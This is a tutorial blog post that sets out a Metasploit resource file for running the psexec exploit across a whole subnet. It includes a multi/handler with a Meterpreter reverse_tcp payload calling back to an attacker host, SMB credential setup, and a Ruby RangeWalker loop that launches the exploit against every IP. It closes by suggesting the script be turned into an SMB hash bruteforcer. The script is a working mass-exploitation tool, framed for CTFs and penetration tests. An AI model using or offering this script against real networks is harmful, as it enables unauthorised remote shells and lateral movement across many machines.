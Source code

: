 = Rapid fire PSEXEC for Metasploit
:hp-tags: metasploit, meterpreter, resource files, script

Exploit modules inside of metasploit don't have the ability to run on multiple hosts with one swing of the bat. So I created some code to facilitate that. It's really not much but there are some really juicy pieces of knowledge I learned on the way here.

// The following is a resource file, but instead of just giving you something to download or straight copy and paste, I've broken it up into sections. Also take note of the "setg" which sets the variable globally so that I don't have to set it inside of the psexec module.

```
use multi/handler  
setg PAYLOAD windows/meterpreter/reverse_tcp  
setg LHOST 192.168.1.114  
setg LPORT 80  
set ExitOnSession false

exploit -j -z
```

This first part, while nothing spectacular, sets the multi/handler up before hand so that each run of the exploit module doesn't have to set up and tear down the handler. = fast. The following though is just the setup for the module.

```
use windows/smb/psexec  
set SMBUser Administrator  
set SMBPass password123
```

Here is where it gets interesting though. Windows systems want something in SMBDomain, if they aren't joined to a domain they can take pretty much anything here.

However if they are actually joined to a domain, you either have to have the computer name (which definitely won't play well with a scanner easily) or use domain credentials.

```
set SMBDomain .
```

The "." is something every Windows API programmer would know as it's really well documented, but certainly not every Metasploit user. What it means is basically localhost, since SMB won't take either localhost or 127.0.0.1.

Next up, we don't want each run of the exploit module to build the multi/handler and tear it down every single run. That's why we built it first and set DisablePayloadHandler inside of the psexec module.

```
set DisablePayloadHandler true
```

Resource files have been able run blocks of ruby in metasploit since revision 8876. By putting the `<ruby>` html like block identifier you can then use the power of Ruby combined with Rex (Metasploit's API) to do really cool stuff.

More setup, but this time for the ruby portion. Using Metasploit's RangeWalker, we can take all kinds of input, an IP, a CIDR range, and even a line separated file of IP addresses using the "file:" prefix.

```ruby
<ruby>  
require 'rex/socket/range_walker'  
rhosts = "192.168.92.0/24"  
iplist = Rex::Socket::RangeWalker.new(rhosts)  
iplist.each do |rhost|
```

So, we've included RangeWalker, parsed it, and loaded it into an 'each' for loop.

The `self.run_single` function allows you to send commands like you were outside of the ruby block to msfconsole. We are setting the RHOST to each IP that RangeWalker parsed out, simple right?

```ruby
	self.run_single("set RHOST #{rhost}")  
	self.run_single("exploit -j -z")
end  
</ruby>
```

That's it, we send all of the exploit modules one at a time to the background and tell it not to interact with it using the "-z -j" just as we did with multi/handler.

Now, if your credentials worked on any of the IPs you'll have sessions waiting for you.

This can easily be extended with one more loop and a bit of shuffling to make this in to a SMB bruteforcer that accepts hashes!.

Hope you learned a few things. Oh, and just a caveat, this is NOT quiet or stealthy and will probably get you caught on a blackbox pentest, but this is really great for the smash and grab style of  CTF competitions.